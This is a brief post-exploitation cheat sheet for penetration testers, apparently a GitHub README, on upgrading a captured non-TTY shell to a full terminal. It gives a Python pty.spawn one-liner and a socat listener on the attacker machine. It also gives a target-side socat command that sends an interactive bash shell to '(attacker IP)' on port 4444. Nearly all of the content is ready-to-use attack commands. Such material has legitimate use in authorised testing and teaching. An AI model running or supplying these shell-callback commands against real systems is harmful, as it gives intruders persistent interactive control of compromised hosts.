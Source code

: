 # Post Exploitation Shell Cheat Sheet
All techniques that I use each day during penetration testing are in this module.
## Upgrading shell to a TTY
This section of this module focuses on how to upgrade your nonTTY shell using various methods and resources located on the target system.
### Using Python
To use Python to upgrade to a TTY from your spanwed shell do,

`python -c 'import pty; pty.spawn("/bin/bash")'`

### Using SOCAT
To use Socat, first start the listener on the attacker machine with,

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

Then, start the bind from the target machine with,

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(attacker IP):4444`
